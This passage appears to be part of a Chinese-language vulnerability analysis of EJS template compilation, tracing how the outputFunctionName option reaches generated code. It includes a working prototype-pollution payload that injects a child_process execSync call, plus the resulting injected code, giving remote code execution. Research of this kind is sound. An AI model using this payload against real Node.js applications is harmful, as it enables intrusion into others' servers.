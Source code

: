 -   我们可以看到 src 来源于 source，然后 source 来源于 prepened，以及 appended，所以我们下一步要找的目标就是如何去控制 prepened

[![](assets/1707954592-f72aae787066098b1a8732a867174485.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202195940-8b5c94aa-c1c2-1.png)

## 第一处：outputFuncitonName 字段 RCE

-   这里我们能够看到 prepended 内容可以由 outputFunctionName 来控制可以看到这里再一次调用了我们污染过的 outputFunctionName，然后将其拼接到字符串当中，我们就可以对他进行一个命令拼接

```bash
if (!this.source) {
      ......
      prepended +=
        '  var __output = "";\n' +
        '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
      if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
      ......
      }
```

```bash
{
    "__proto__":{
    "outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').execSync('calc');var __tmp2"
    }
}
```

-   可以看到调试中对 outputFunctionName 进行拼接以后得到 prepended 结果，可以看到我们的命令执行代码成功插入到里面：

```bash
var __output = "";
function __append(s) { if (s !== undefined && s !== null) __output += s }
var _tmp1;
global.process.mainModule.require('child_process').execSync('calc');
var __tmp2 = __append;
```
